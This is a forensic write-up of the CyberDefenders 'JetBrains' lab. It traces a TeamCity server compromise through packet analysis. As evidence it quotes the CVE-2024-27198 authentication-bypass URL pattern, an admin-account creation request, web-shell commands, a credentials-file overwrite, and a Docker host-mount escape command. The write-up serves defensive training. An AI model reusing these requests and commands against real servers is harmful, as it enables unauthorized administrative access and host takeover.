# JetBrains — Network Forensics Investigation


## Lab Overview

The **JetBrains** CyberDefenders lab investigates the compromise of a JetBrains TeamCity server through network traffic analysis.

The investigation revealed that the attacker exploited an authentication bypass vulnerability, created an administrator account, uploaded a malicious TeamCity plugin containing a JSP web shell, executed operating-system commands, modified a credentials file, and attempted to escape from a Docker container.

> This write-up focuses on the investigation methodology and supporting evidence, not only the final answers.

## Full Investigation Report

[Download the complete JetBrains Network Forensics Report](./Network_Forensics_JetBrains_Report.pdf)

---

## Investigation Objectives

- Identify the attacker’s IP address.

- Determine the vulnerable TeamCity version.

- Identify the exploited vulnerability.

- Recover the attacker-created administrator credentials.

- Identify the uploaded web shell.

- Determine when command execution started.

- Analyze the credentials-file modification.

- Map the activity to MITRE ATT&CK.

- Identify the attempted Docker container-escape command.

---

## Tools Used

- **Wireshark** — Packet filtering and HTTP analysis.

- **NetworkMiner** — Host and transferred-file analysis.

- **MITRE ATT&CK** — Technique mapping.

- **NIST NVD** — Vulnerability verification.

- **JetBrains Security Advisory** — Product-specific vulnerability research.

---

## Investigation Summary

| Item | Finding |
|---|---|
| Attacker IP | `23.158.56.196` |
| Victim public IP | `3.71.79.4` |
| Internal host | `172.31.25.119` |
| Container IP | `172.17.0.2` |
| Service port | `8111/TCP` |
| Product | JetBrains TeamCity |
| TeamCity version | `2023.11.3` |
| Build number | `147512` |
| Vulnerability | `CVE-2024-27198` |
| Malicious account | `c91oyemw` |
| Uploaded plugin | `NSt8bHTg.zip` |
| Web shell | `NSt8bHTg.jsp` |
| Modified file | `/tmp/Creds.txt` |

---

## Initial Traffic Triage

The supplied PCAP contained **33,279 packets**.



Wireshark’s **Protocol Hierarchy Statistics** showed that most of the captured traffic used TCP. HTTP represented a significant portion of the transferred data.

Because TeamCity was communicating over unencrypted HTTP, sensitive information such as API requests, uploaded filenames, account information, and web-shell commands could be inspected directly.



The IPv4 endpoints were also reviewed to identify the systems communicating with the TeamCity server.



Packet volume alone was not used to identify the attacker. The conclusion was based on the endpoint’s behavior, including authentication bypass, account creation, plugin upload, and command execution.

---

# Investigation Findings

## Q1 — Attacker IP Address

HTTP POST requests were examined using:

```wireshark
http.request.method == "POST"
```

The source responsible for the malicious TeamCity API requests, plugin upload, and web-shell commands was:



```text
23.158.56.196
```

**Answer:** `23.158.56.196`

---

## Q2 — TeamCity Version

After identifying the attacker, its HTTP traffic was isolated using:

```wireshark
ip.addr == 23.158.56.196 && http
```

A malicious request queried the TeamCity REST API:

```http
GET /hax?jsp=/app/rest/server;.jsp HTTP/1.1
```



The HTTP response contained:

```xml
<server version="2023.11.3" buildNumber="147512" />
```



**Answer:** `2023.11.3`

---

## Q3 — Exploited Vulnerability

The attacker accessed protected TeamCity REST API endpoints without normal authentication by using a crafted URL pattern:

```text
/hax?jsp=/app/rest/...;.jsp
```

This behavior matches the authentication bypass vulnerability:

```text
CVE-2024-27198
```

The affected server was running TeamCity `2023.11.3`. JetBrains addressed the vulnerability in TeamCity `2023.11.4`.



**Answer:** `CVE-2024-27198`

---

## Q4 — Attacker-Created Credentials

The attacker submitted a POST request to the TeamCity users REST endpoint:

```http
POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1
```

The request body contained:

```json
{
  "username": "c91oyemw",
  "password": "CL5vzdwLuK",
  "email": "c91oyemw@example.com",
  "roles": {
    "role": [
      {
        "roleId": "SYSTEM_ADMIN",
        "scope": "g"
      }
    ]
  }
}
```



The `SYSTEM_ADMIN` role gave the account administrative privileges. The scope value `g` indicated that the permissions applied globally.

The attacker later generated an access token for the account, providing an additional persistence mechanism.



**Answer:**

```text
c91oyemw:CL5vzdwLuK
```

---

## Q5 — Uploaded Web Shell

After obtaining administrative access, the attacker uploaded a ZIP archive through:

```http
POST /admin/pluginUpload.html HTTP/1.1
```

The multipart request contained:

```text
filename="NSt8bHTg.zip"

Content-Type: application/zip
```



The archive was uploaded as a TeamCity plugin. Its JSP web-shell component became accessible at:

```text
/plugins/NSt8bHTg/NSt8bHTg.jsp
```

The web shell accepted operating-system commands through an HTTP parameter named `cmd`.

- **Uploaded archive:** `NSt8bHTg.zip`

- **Deployed web shell:** `NSt8bHTg.jsp`

---

## Q6 — First Web-Shell Command

Requests sent to the JSP web shell were isolated using:

```wireshark
ip.src == 23.158.56.196 &&

http.request.method == "POST" &&

http.request.uri contains "NSt8bHTg.jsp"
```



The first matching request contained:

```text
cmd=ls
```

The packet timestamp showed that the first web-shell command was executed at:

```text
2024-06-30 08:03:57 UTC
```

**Answer:** `2024-06-30 08:03:57 UTC`

---

## Q7 — Credentials File Tampering

The commands submitted to the web shell were examined under:

```text
HTML Form URL Encoded

└── Form item: cmd
```

One request contained:

```bash
bash -c 'echo "username:all4m,password:youarecompromised" > /tmp/Creds.txt'
```



Command explanation:

- `bash -c` executes the supplied command using Bash.

- `echo` prepares the attacker-controlled text.

- `>` overwrites the target file.

- `/tmp/Creds.txt` is the modified credentials file.

The attacker inserted the following credentials:

```text
all4m:youarecompromised
```

**Answer:** `all4m:youarecompromised`

---

## Q8 — MITRE ATT&CK Technique

The attacker overwrote information stored inside `/tmp/Creds.txt`.

This activity affected the integrity of stored data and maps to:

```text
T1565.001 — Stored Data Manipulation
```



**Answer:** `T1565.001`

---

## Q9 — Container-Escape Attempt

Further inspection of the web-shell traffic revealed several Docker-related commands.

The command used to attempt access to the underlying Docker host was:

```bash
docker run --rm -it -v /:/host ubuntu chroot /host
```



| Component | Meaning |
|---|---|
| `docker run` | Starts a new Docker container |
| `--rm` | Removes the container after it exits |
| `-it` | Creates an interactive terminal |
| `-v /:/host` | Mounts the host root filesystem at `/host` |
| `ubuntu` | Specifies the container image |
| `chroot /host` | Attempts to use the mounted host filesystem as the new root |

The attacker attempted to mount the host’s entire filesystem inside a new container and access it using `chroot`.

According to the lab scenario, the escape attempt was unsuccessful.

**Answer:**

```bash
docker run --rm -it -v /:/host ubuntu chroot /host
```

---

## Reconstructed Attack Chain

1. The attacker at `23.158.56.196` connected to the exposed TeamCity server on TCP port `8111`.

2. The attacker exploited `CVE-2024-27198` to bypass authentication.

3. The TeamCity REST API revealed version `2023.11.3`.

4. The attacker created the global administrator account `c91oyemw`.

5. An access token was generated for the malicious account.

6. The attacker uploaded `NSt8bHTg.zip` as a TeamCity plugin.

7. The plugin deployed the `NSt8bHTg.jsp` web shell.

8. Operating-system commands were submitted through the `cmd` parameter.

9. The attacker overwrote `/tmp/Creds.txt`.

10. A Docker container escape was attempted but failed.

---

## Indicators of Compromise

| Indicator type | Value |
|---|---|
| Attacker IP | `23.158.56.196` |
| Victim public IP | `3.71.79.4` |
| Internal host | `172.31.25.119` |
| Container IP | `172.17.0.2` |
| TeamCity port | `8111/TCP` |
| Vulnerable version | `2023.11.3` |
| Build number | `147512` |
| Vulnerability | `CVE-2024-27198` |
| Malicious username | `c91oyemw` |
| Malicious email | `c91oyemw@example.com` |
| Uploaded archive | `NSt8bHTg.zip` |
| Web-shell file | `NSt8bHTg.jsp` |
| Web-shell path | `/plugins/NSt8bHTg/NSt8bHTg.jsp` |
| Modified file | `/tmp/Creds.txt` |
| Inserted credentials | `all4m:youarecompromised` |
| Suspicious URI | `/hax?jsp=/app/rest/...;.jsp` |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Initial Access | `T1190 — Exploit Public-Facing Application` | Exploitation of the exposed TeamCity server |
| Persistence | `T1136 — Create Account` | Creation of a global administrator account |
| Persistence | `T1505.003 — Web Shell` | Deployment of a malicious JSP web shell |
| Execution | `T1059.004 — Unix Shell` | Execution of Bash commands |
| Command and Control | `T1071.001 — Web Protocols` | Commands submitted through HTTP POST |
| Impact | `T1565.001 — Stored Data Manipulation` | Modification of `/tmp/Creds.txt` |
| Privilege Escalation | `T1611 — Escape to Host` | Docker container-escape attempt |

---

## Detection Opportunities

- Alert on TeamCity URLs containing both `?jsp=` and `;.jsp`.

- Monitor unauthenticated access to protected REST API endpoints.

- Detect newly created users receiving the global `SYSTEM_ADMIN` role.

- Alert on token creation immediately after a new administrator is created.

- Monitor POST requests to `/admin/pluginUpload.html`.

- Validate the source and integrity of uploaded TeamCity plugins.

- Hunt for unexpected JSP files inside TeamCity plugin directories.

- Detect repeated HTTP POST requests containing a `cmd` parameter.

- Monitor Docker commands executed from inside containers.

- Detect the use of `--privileged`, host root mounts, `docker.sock`, and `chroot`.

---

## Remediation Recommendations

1. Isolate the compromised TeamCity server.

2. Preserve the PCAP, TeamCity logs, container logs, and host logs.

3. Upgrade TeamCity to a fixed and supported version.

4. Remove the malicious plugin and JSP web shell.

5. Delete the attacker-created account and revoke its tokens.

6. Restore `/tmp/Creds.txt` from a trusted source.

7. Rotate TeamCity passwords, API tokens, repository credentials, build secrets, and signing keys.

8. Rebuild the compromised container from a trusted image.

9. Investigate the Docker host for additional compromise.

10. Prevent containers from accessing `/var/run/docker.sock`.

11. Restrict privileged containers and host filesystem mounts.

12. Limit access to the TeamCity administration interface.

---

## Conclusion

The investigation confirmed that the TeamCity server was compromised through `CVE-2024-27198`.

The attacker bypassed authentication, created an administrative account, uploaded a malicious plugin containing a JSP web shell, and executed operating-system commands through HTTP.

The attacker also modified a stored credentials file and attempted to escape from the Docker container. Although the escape attempt failed, successful web-shell execution means the affected TeamCity environment should be considered fully compromised.

This investigation demonstrates that attacker identification should be based on behavior and the complete attack chain, not packet volume alone.

---

## References

- [CyberDefenders — JetBrains Lab](https://cyberdefenders.org/blueteam-ctf-challenges/jetbrains/)

- [JetBrains TeamCity Security Advisory](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/)

- [NIST NVD — CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198)

- [Rapid7 — TeamCity Authentication Bypass Analysis](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)

- [MITRE ATT&CK — Stored Data Manipulation](https://attack.mitre.org/techniques/T1565/001/)

---

**Author:** Alaa Zahra  

**Track:** SOC Analyst Tier 1  

**Platform:** CyberDefenders
